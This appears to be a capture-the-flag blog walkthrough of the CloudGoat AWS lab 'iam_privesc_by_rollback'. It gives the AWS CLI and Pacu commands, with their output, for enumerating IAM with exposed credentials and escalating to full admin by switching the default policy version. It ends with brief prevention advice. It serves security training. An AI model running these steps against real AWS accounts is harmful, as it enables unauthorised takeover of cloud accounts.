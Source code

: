 ```yaml
---
title: 'iam_privesc_by_rollback'
date: 2018-11-28
tags: ["aws", "cloud", "cloudgoat", "walkthrough", "ctf"]
categories: ["cloudgoat"]
aliases: ["/iam-privesc-by-rollback"]
author: "Travis"
summary: "Cloud Goat IAM priviledge escalation by rollback scenario walkthrough"
---
```

---

According to the official documentation for this scenario ([here](https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/iam_privesc_by_rollback)) the overall goal is to "Acquire full admin privileges."

We can create the challenge by running

```bash
python3 cloudgoat.py create iam_privesc_by_rollback
```

The build process will begin and when it finishes we will be provided with a set of credentials for the Raynor user account.

---

### Raynor
In the real world, we probably wouldn't just be handed these credentials. However, people make mistakes and credentials are often accidentally exposed. Let's start doing basic enumeration and see if we can determine what things we have access to. To do this we'll run the following set of commands just to poke at a few of the more common services:

```bash
aws --profile solus s3 ls
aws --profile solus ec2 describe-instances
aws --profile solus iam list-roles
aws --profile solus lambda list-functions
```


All of the api calls fail with the exeption being iam list-roles. We can clean the output up by using jq:

```bash
aws --profile raynor iam list-roles | jq '.Roles[].RoleName'
```

This command will produce an output similar to the one below.

![jq-list-roles.png](images/jq-list-roles.png "img-fluid")

The key takeaway here is that we have access to a user account with some level of IAM permissions. How much access do we have? One way to find out is by leveraging Pacu to bruteforce those permissions for us. The other option is to make iam calls one at a time to determine where our limits may exist. For this example we'll leverage Pacu and run the iam__enum_users_roles_policies_groups module.

```python
run iam__enum_users_roles_policies_groups
```

Once the module finishes its execution we see that it successfully enumeated various aspects of the account.

![iam-enum-results.png](images/iam-enum-results.png "img-fluid")

We can run the data `IAM command` to see information associated with the enumeration. At first glance of the policies it appears there is a specific policy listed for our user account: `cg-raynor-policy`

```json
"Policies": [
 {
  "PolicyName": "cg-raynor-policy",
  "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
  "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
  "Path": "/",
  "DefaultVersionId": "v1",
  "AttachmentCount": 1,
  "IsAttachable": true,
  "CreateDate": "Mon, 25 May 2020 14:24:46",
  "UpdateDate": "Mon, 25 May 2020 14:24:48"
 }
],
```

Looking at the details above we can also tell that the policy is curently attached `AttachmentCount: 1` and the version being used is v1 `DefaultVersionId: v1`. If we wanted to leverage the aws cli in place of Pacu we could run the command below. The command is filtering to show only those policies which are currently attached to a resource.

```bash
aws --profile raynor iam list-policies --only-attached --scope Local

{
 "Policies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
   "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
   "Path": "/",
   "DefaultVersionId": "v1",
   "AttachmentCount": 1,
   "PermissionsBoundaryUsageCount": 0,
   "IsAttachable": true,
   "CreateDate": "2020-05-25T14:24:46Z",
   "UpdateDate": "2020-05-25T14:24:48Z"
  }
 ]
}
```

The next question we have to answer is the policy attached to our user account? We can do that by quering the list-attached-user-policies endpoint and our user name raynor. An example command and output is below.

```bash
aws --profile raynor iam list-attached-user-policies --user-name raynor

{
 "AttachedPolicies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyArn": "arn:aws:iam::121212121212:policy/cg-raynor-policy"
  }
 ]
}
```

---

### Versions

Good news, it appears the raynor policy is currently associated with the raynor user account. Lets see if we can learn more about what we are allowed to do and what we are not allowed to do. We can accomplish this by making a call to the `get-policy-version` endpoint as seen below.

```bash
aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v1
{
 "PolicyVersion": {
  "Document": {
   "Version": "2012-10-17",
   "Statement": [
    {
     "Sid": "IAMPrivilegeEscalationByRollback",
     "Action": [
      "iam:Get*",
      "iam:List*",
      "iam:SetDefaultPolicyVersion"
     ],
     "Effect": "Allow",
     "Resource": "*"
    }
   ]
  },
  "VersionId": "v1",
  "IsDefaultVersion": true,
  "CreateDate": "2020-05-25T14:24:46Z"
 }
}
```


For the call to work we specified the policy arn as well as the version currently applied. From the output it looks like we can make calls to iam resources if they are a Get, List, or SetDefaultPolicyVersion. That last one is interesting. Perhaps our currently policy has more than one version? Let's check to see if version 2 of our policy exists. The results are below:

```bash
aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v2

{
 "PolicyVersion": {
  "Document": {
   "Version": "2012-10-17",
   "Statement": [
    {
     "Action": "*",
     "Effect": "Allow",
     "Resource": "*"
    }
   ]
  },
  "VersionId": "v2",
  "IsDefaultVersion": false,
  "CreateDate": "2020-05-25T14:24:48Z"
 }
}
```

Interesting, a version 2 of the policy does exist, and it gives full admin access to the entire account. Our current policy provides us with the ability to set the default version of a policy. If we were to change the default version of the policy currently applied to our user account from 1 to 2 we could escalate our privledges to full admin.

The command below will accomplish this.

```bash
aws --profile raynor iam set-default-policy-version --policy arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v2
```

If successful there will be no response. We can validate the command was successful by re-running the `list-policies` command:

```bash
aws --profile raynor iam list-policies --only-attached --scope Local

{
 "Policies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
   "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
   "Path": "/",
   "DefaultVersionId": "v2",
   "AttachmentCount": 1,
   "PermissionsBoundaryUsageCount": 0,
   "IsAttachable": true,
   "CreateDate": "2020-05-25T14:24:46Z",
   "UpdateDate": "2020-05-25T18:28:50Z"
  }
 ]
}
```

Notice the default version has changed from `v1` to `v2`. At this point we have full administrative rights to this aws account.

---

### Prevention
So, how do we prevent this. Where did the owner of this account go wrong? There are a few places where this could have be stopped. Lets dive into them.

1. The most important is to not expose credentials. If we were not able to leverage raynors credentials we would not have been able to authenticate and further escalate privileges.
2. Limit what users can do. The policy associated with raynor allowed for too much access. I imagine in the real world a user with this set of actions at there disposal would likely have much more persmissions within the account.